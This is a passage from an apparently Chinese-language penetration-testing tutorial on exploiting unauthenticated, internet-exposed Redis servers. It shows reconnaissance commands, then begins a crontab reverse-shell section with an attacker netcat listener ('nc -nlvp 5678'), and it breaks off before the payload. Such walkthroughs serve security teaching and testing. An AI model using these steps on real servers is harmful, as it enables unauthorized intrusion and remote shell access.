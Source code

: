 [![](assets/1702372985-8ff4ddeabc1b8925bfb1d8eb004aeabf.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/6.png)

登录的结果可以看出该 redis 服务对公网开放，且未启用认证。

```plain
    > info   # 查看 redis 版本信息、一些具体信息、服务器版本信息等等：
    > CONFIG GET dir # 获取默认的 redis 目录
    > CONFIG GET dbfilename # 获取默认的 rdb 文件名
```

举例输入 info，查看到大量敏感信息。

[![](assets/1702372985-e4d0d08133d68102982b7cc0240e4935.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/7.png)

#### [](#2-%E5%88%A9%E7%94%A8crontab%E5%8F%8D%E5%BC%B9shell "2.利用crontab反弹shell")2.利用 crontab 反弹 shell[](#2-%E5%88%A9%E7%94%A8crontab%E5%8F%8D%E5%BC%B9shell)

在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell

先在自己的 kali/服务器上监听一个端口 nc -nlvp 5678

[![](assets/1702372985-6b246f8aaa9dcfa1cdad581a4f47e1b8.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/8.png)

然后通过未授权访问连接上服务器执行命令
